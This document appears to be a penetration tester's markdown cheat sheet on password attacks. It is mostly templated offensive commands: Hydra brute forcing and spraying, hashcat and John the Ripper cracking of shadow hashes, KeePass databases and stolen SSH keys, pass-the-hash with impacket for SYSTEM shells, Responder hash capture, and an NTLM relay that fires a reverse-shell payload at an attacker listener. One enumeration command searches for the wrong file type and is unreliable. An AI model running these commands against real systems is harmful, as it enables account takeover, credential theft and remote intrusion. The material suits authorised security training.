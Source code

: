 # Password Attacks

## Online Brute Forcing

### Hydra

```
// Password Guessing
sudo hydra -l <USERNAME> -P <WORDLIST> -s <PORT> <PROTOCOL>://<IP>

// Password Spraying
sudo hydra -L <USERLIST> -p <PASSWORD> -s <PORT> <PROTOCOL>://<IP>
```

`-s` only needed if service is running on non-default port

### Crackmapexec SMB

```
crackmapexec smb <TARGET_IP> -u <USERNAMES_FILE> -p <PASSWORD_FILE> --continue-on-success
```


## Offline Password Cracking

### Hashcat

**Usage**

```
hashcat -m <HASH_MODULE> <HASH_FILE> <WORDLIST> -r <RULE_FILE> --force 
```

Checking rule applications to wordlists (via debugging mode `--stdout`)
```
hashcat -r <RULE_FULE> --stdout <WORDLIST>
```

**Rule orders**, e.g. imagine if wordlist was `password, iloveyou, princess, abc`

If rule file has both rules on same line, they are applied from left-to-right

```
// Append 1 to end of word, capitalise the word
$1 c
```

then the resulting modified words have the rules applied together: `Password1, Iloveyou1, Princess1, Abc1`

If the rule file has each rule on a new line

```
$1
c
```

then the resulting modified words have the rules applied together: `Password, password1, Iloveyou, iloveyou1, Princess, princess1, Abc, abc1`

*Note:* For /etc/passwd and /etc/shadow files, we need to first unshadow using `sudo unshadow <PASSWD> <SHADOW> > hashes.passwd` and then we need to crack in either hashcat or JtR. The protocol used for encryption can be identified in the hash:
- $1: md5crypt
- $2*: bcrypt
- $5: sha256crypt
- $6: sha512crypt
- $7: Scrypt
- $7z: 7-Zip
- $8: Cisco IOS PBKDF2-SHA256
- $9: Cisco IOS scrypt
- $y: yescrypt
- $apr1: Apache
- $sha1: Juniper/NetBSD sha1crypt 
- $argon2i: Argon2

## Password Managers

We can enumerate programs installed on the target to try and find a Password Manager application.

If we can export the password manager database from the target, we can maybe crack the key

```
// Enumerate a Windows machine
PS C:\> Get-ChildItem -Recurse -Include *.jpg -File -ErrorAction SilentlyContinue
```

Copy file to attacker machine.

You can format the database into a hash via tools such as `ssh2john` or `keepass2john` etc. **Note:** these tools output in the format `<USERNAME>:<HASH>` - remove the username if its not used by the target application.

Use these hashes in hashcat, e.g. for KeePass

```
// Uses rockyou-30000 most common rulesets
link@kali:~$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```


## Cracking SSH Private Keys

### Enumerate Key

Get private key by obtaining `id_rsa` somehow (default `~/.ssh/id_rsa`)

Then convert it to hash format

```
link@kali:~$ ssh2john id_rsa > ssh-key.hash
```

Then crack it with chosen wordlist and ruleset

```
link@kali:~$ hashcat -h | grep -i ssh
link@kali:~$ hashcat -m <SSH_MODULE> ./ssh-key.hash <WORDLIST> -r <RULESET> --force
```

Sometimes hashcat may not work for cipher limitations, in this case try John The Ripper

```
john --wordlist=<WORDLIST> --rules=<JTR_RULESET_NAME> ssh-key.hash
```

(Note, to configure rules in JTR, we need to prepend the ruleset file with `[List.Rules::<JTR_RULESET_NAME>]` as the first line, e.g.
```
link@kali:~$ cat john.rule
[List.Rules::sshrule]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

// Append ruleset to configuration; called in in command by <JTR_RULESET_NAME> (e.g. sshrule)
link@kali:~$ sudo sh -c 'cat /full/path/to/john.rule >> /etc/john/john.conf
```
will make the rulset available in the `john` command when cracking with JTR).

And finally...

```
link@kali:~$ ssh -i id_rsa -p <TARGET_PORT> <USER>@<TARGET_IP>
```


## Attacking with NTLM Hashes

### NTLM

If we uncover a NTLM hash, we can try pass-the-hash attacks even if we can't crack the password. Some example tools that support NTLM authentication
- smbclient
- CrackMapExeco
- impacket-library
- PsExec
- wmiexec.py

E.g.

```
link@kali:~$ smbclient \\\\<TARGET_IP>\\<SHARE_NAME> -U <USERNAME> --pw-nt-hash <NTLM_HASH>
```

or 

```
// Gives specified user in command's access
// Note: the 32 rand0 0s are where the LM hash would be, but if only using NTLM then not needed
link@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:<HASH> <USER>@<TARGET_IP> cmd
```

or even 

```
// Gives NT_AUTHORITY\SYSTEM access
// Note: the 32 rand0 0s are where the LM hash would be, but if only using NTLM then not needed
link@kali:~$ impacket-psexec -hashes 00000000000000000000000000000000:<HASH> <USER>@<TARGET_IP> cmd
```

boom

### Net-NTLMv2

If we arne't a local admin rights user, it might be hard to leak SAM or LSASS data etc. to obtain a NTLM hash.

In this case, we can abuse the Net-NTLMv2 authentication protocol to get a Net-NTLMv2 hash.

E.g. we set up a SMB server, force the target to connect to it and capture the hash used during authentication.

```
// Set up SMB server with Responder to reveal Net-NTLMv2 hash
link@kali:~$ responder -I <NETWORK_INTERFACE>
```

then from target:


```
C:\> dir \\<ATTACKER_IP>\<NON_EXISTENT_SHARE>
```

once we have the hash, we can crack it with hashmap using the correct module *or* we can exploit via Net-NTLMv2 relay attack (full command execution requires user to be local admin on target machine).

On attacker machine:

```
link@kali:~$ sudo impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET_IP> -c <REVSHELL_PAYLOAD>

link@kali:~$ nc -lvnp <REVSHELL_PORT>
```

On target machine:

```
C:\> dir \\<ATTACKER_IP>\<NON_EXISTENT_SHARE>
```


## AD Group Policy Preferences Passwords

GPP = Group Policy Preferences

GPP allows system administrators to change local workstation passwords in Active Directory. One way of obtaining these passwords is through Policy XML files.

 These are stored with AES-256 encryption but for some reason the encryption key can be found on Microsoft docs: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be

We can therefore easily decrypt these stored passwords using the ruby-based `gpp-decrypt` tool:

```
link@kali:~$ gpp-decrypt "<GPP_PASSWORD>"
```